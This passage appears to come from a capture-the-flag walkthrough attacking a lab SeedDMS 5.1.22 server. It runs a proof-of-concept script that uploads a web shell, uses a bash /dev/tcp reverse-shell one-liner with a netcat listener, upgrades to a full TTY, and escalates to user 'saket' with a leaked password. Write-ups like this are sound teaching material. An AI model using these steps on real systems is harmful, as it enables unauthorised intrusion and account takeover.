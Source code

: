 ```console
root@kali:~$ chmod +x poc.sh
root@kali:~$ ./poc.sh
Usage: poc.sh [url] [user] [password]
root@kali:~$ ./poc.sh http://172.16.131.131/seeddms51x/seeddms-5.1.22 admin hackm3
[+] Login successful
[+] Token retrieved
[+] Creating web shell
[+] Webshell uploaded
[+] Getting shell

$ whoami
www-data
$ cat /etc/issue
Ubuntu 20.04.2 LTS \n \l
```

We see that we can execute system commands, but this is a limited shell, we can not do much, so I decided to get a reverse shell, for that we set up a netcat listener on port 443 and then we run the following bash reverse shell.

```console
$ bash -c "bash -i >& /dev/tcp/172.16.131.1/443 0>&1"
```

We get a reverse shell, and the we spawn to a full tty shell.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [172.16.131.1] from (UNKNOWN) [172.16.131.131] 38042
bash: cannot set terminal process group (935): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html/seeddms51x/data/1048576/163$ script -qc /bin/bash /dev/null
<1x/data/1048576/163$ script -qc /bin/bash /dev/null
www-data@ubuntu:/var/www/html/seeddms51x/data/1048576/163$ ^Z
zsh: suspended  nc -vlnp 443
root@kali:~$ stty raw -echo; fg
[1]  + continued  nc -vlnp 443

www-data@ubuntu:/var/www/html/seeddms51x/data/1048576/163$ export TERM=screen
164  ata@ubuntu:/var/www/html/seeddms51x/data/1048576/163$ stty rows 44 columns
```

## Privilege Escalation
### Exposed Credentials 

Then, to elevate the access level as user **saket** I used the password found in the table users.

password: Saket@#$1337

```console
www-data@ubuntu:/var/www/html$ su saket
Password:
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

saket@ubuntu:/var/www/html$ cd
saket@ubuntu:~$ whoami
saket
```

